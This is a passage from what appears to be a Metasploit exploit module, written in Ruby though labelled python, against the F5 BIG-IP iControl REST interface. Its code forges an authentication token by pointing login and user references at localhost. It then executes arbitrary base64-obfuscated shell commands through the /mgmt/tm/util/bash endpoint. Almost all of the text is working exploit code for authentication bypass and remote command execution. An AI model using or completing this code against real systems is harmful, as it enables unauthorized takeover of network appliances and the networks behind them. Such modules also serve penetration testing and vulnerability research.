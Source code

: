```python
        'bigipAuthCookie' => '',
        'authProviderName' => 'local',
        'loginReference' => {
          'link' => "https://localhost#{login_reference_endpoint}"
        },
        'userReference' => {
          'link' => "https://localhost#{user_reference_endpoint}"
        }
      }.to_json
    )

    unless res&.code == 200 && (@token = res.get_json_document.dig('token', 'token'))
      print_error('Failed to generate token')
      return
    end

    print_good("Successfully generated token: #{@token}")
    @token
  end

  def execute_command(cmd, _opts = {})
    bash_cmd = "eval $(echo #{Rex::Text.encode_base64(cmd)} | base64 -d)"

    print_status("Executing command: #{bash_cmd}")

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/mgmt/tm/util/bash'),
      'ctype' => 'application/json',
      'headers' => {
        'X-F5-Auth-Token' => @token
      },
      'data' => {
        'command' => 'run',
        'utilCmdArgs' => "-c '#{bash_cmd}'"
      }.to_json
    }, datastore['CmdExecTimeout'])

    unless res
      print_warning('Command execution timed out')
      return
    end

    json = res.get_json_document

    unless res.code == 200 && json['kind'] == 'tm:util:bash:runstate'
      fail_with(Failure::PayloadFailed, 'Failed to execute command')
    end

    print_good('Successfully executed command')

    return unless (cmd_result = json['commandResult'])

    vprint_line(cmd_result)
  end

  def login_reference_endpoint
    if datastore['ENDPOINT']
      return normalize_uri(target_uri.path, datastore['ENDPOINT'])
    end

    @token_generation_endpoint ||= token_generation_endpoints.sample

```